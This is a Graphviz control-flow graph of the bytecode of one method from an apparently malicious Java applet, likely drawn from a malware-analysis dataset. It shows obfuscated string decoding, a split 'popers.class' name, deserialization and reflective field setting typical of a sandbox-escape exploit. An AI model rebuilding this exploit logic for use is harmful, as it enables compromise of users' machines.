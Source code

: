 digraph "" {
    "r0 := @this: hw"
    "push \"juIu.LWyf.+hd+LttZdW.uWhYy+.-WhYy+KZsZtZd+Z-ttu)\""
    "r0 := @this: hw"->"push \"juIu.LWyf.+hd+LttZdW.uWhYy+.-WhYy+KZsZtZd+Z-ttu)\"";
    "staticinvoke <hw: java.lang.String mimimi(java.lang.String)>"
    "push \"juIu.LWyf.+hd+LttZdW.uWhYy+.-WhYy+KZsZtZd+Z-ttu)\""->"staticinvoke <hw: java.lang.String mimimi(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"
    "staticinvoke <hw: java.lang.String mimimi(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "push 2"
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"push 2";
    "newarray"
    "push 2"->"newarray";
    "store.r r4"
    "newarray"->"store.r r4";
    "load.r r4"
    "store.r r4"->"load.r r4";
    "push 0"
    "load.r r4"->"push 0";
    "staticget <java.lang.Integer: java.lang.Class TYPE>"
    "push 0"->"staticget <java.lang.Integer: java.lang.Class TYPE>";
    "arraywrite.r"
    "staticget <java.lang.Integer: java.lang.Class TYPE>"->"arraywrite.r";
    "arraywrite.r"->"load.r r4";
    "push 1"
    "load.r r4"->"push 1";
    "push class \"Ljava/lang/Object;\""
    "push 1"->"push class \"Ljava/lang/Object;\"";
    "push class \"Ljava/lang/Object;\""->"arraywrite.r";
    "push \"set\""
    "arraywrite.r"->"push \"set\"";
    "push \"set\""->"load.r r4";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"
    "load.r r4"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "staticinvoke <BadRun: java.lang.String getSunJCE()>"
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"staticinvoke <BadRun: java.lang.String getSunJCE()>";
    "staticinvoke <BadRun: java.lang.String getSunJCE()>"->"staticinvoke <hw: java.lang.String mimimi(java.lang.String)>";
    "load.r r0"
    "staticinvoke <hw: java.lang.String mimimi(java.lang.String)>"->"load.r r0";
    "staticinvoke <popers: java.lang.String get(java.applet.Applet)>"
    "load.r r0"->"staticinvoke <popers: java.lang.String get(java.applet.Applet)>";
    "staticinvoke <popers: java.lang.String get(java.applet.Applet)>"->"store.r r4";
    "staticinvoke <Hello: java.io.ObjectInputStream ccz(java.lang.String)>"
    "store.r r4"->"staticinvoke <Hello: java.io.ObjectInputStream ccz(java.lang.String)>";
    "staticinvoke <hw: java.lang.Object[] zzx(java.io.ObjectInputStream)>"
    "staticinvoke <Hello: java.io.ObjectInputStream ccz(java.lang.String)>"->"staticinvoke <hw: java.lang.Object[] zzx(java.io.ObjectInputStream)>";
    "dup1.r"
    "staticinvoke <hw: java.lang.Object[] zzx(java.io.ObjectInputStream)>"->"dup1.r";
    "push 5"
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "store.r $r14"
    "newarray"->"store.r $r14";
    "load.r $r14"
    "store.r $r14"->"load.r $r14";
    "load.r $r14"->"push 0";
    "push 0"->"load.r r0";
    "virtualinvoke <hw: java.lang.Object zzc()>"
    "load.r r0"->"virtualinvoke <hw: java.lang.Object zzc()>";
    "virtualinvoke <hw: java.lang.Object zzc()>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r14";
    "load.r $r14"->"push 1";
    "new java.lang.StringBuilder"
    "push 1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"popers\""
    "dup1.r"->"push \"popers\"";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "push \"popers\""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \".cl\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \".cl\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \".cl\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ass\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ass\"";
    "push \"ass\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r14";
    "load.r $r14"->"push 2";
    "push 515"
    "push 2"->"push 515";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"
    "push 515"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "arrayread.r"
    "push 1"->"arrayread.r";
    "store.r r0"
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r14";
    "push 3"
    "load.r $r14"->"push 3";
    "push 3"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r14";
    "push 4"
    "load.r $r14"->"push 4";
    "push 4"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"load.r $r14";
    "staticinvoke <popers: void aaa(java.lang.reflect.Method,java.lang.Object[])>"
    "load.r $r14"->"staticinvoke <popers: void aaa(java.lang.reflect.Method,java.lang.Object[])>";
    "staticinvoke <popers: void aaa(java.lang.reflect.Method,java.lang.Object[])>"->"load.r $r14";
    "load.r $r14"->"push 4";
    "push 4"->"arrayread.r";
    "checkcast"
    "arrayread.r"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"load.r r4";
    "staticinvoke <popers: void begbernge(popers,java.lang.String)>"
    "load.r r4"->"staticinvoke <popers: void begbernge(popers,java.lang.String)>";
    "goto return"
    "staticinvoke <popers: void begbernge(popers,java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "staticinvoke <popers: void begbernge(popers,java.lang.String)>"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
}
